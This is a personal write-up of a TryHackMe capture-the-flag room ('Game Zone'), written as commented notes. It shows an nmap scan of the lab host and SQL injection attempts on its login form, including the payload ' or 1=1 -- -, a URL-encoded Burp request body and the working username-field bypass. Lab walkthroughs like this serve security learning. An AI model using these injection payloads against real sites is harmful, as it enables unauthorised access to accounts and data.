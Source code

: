 #this room is supposed to be on SQLi exploiting using SQLMap 
        #Ive done this about once before I think
#also crack hashed passords and SSH into hidden services - Metasploit privesc

#as always, I start off with nmap and dirb enumeration
(kali㉿kali)-[~/THM/practice/gamezone]
└─$ nmap -sC -sV 10.10.224.42                                                                         255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-11 07:34 EST
Nmap scan report for 10.10.224.42
Host is up (0.020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
#dirb did not reult in anything good



### obtaining access via SQLi ###

#I tried logging in on the site using admin:' or 1=1 -- -
#but it did not work.., so I fired up burp to try and put it trough there instead
username=admin&password=%27or1%3D1---&x=0&y=0
#as shown there was not merely the uname:password parameters but an x and y too
#apparently there is no admin user, so I proceeded to use ' or 1 = 1 -- - as the uname and leaving password blank:
        #x and y values changed to 32 and 12 respectively, indicating there is definitely a user
#now we have access to a portal 




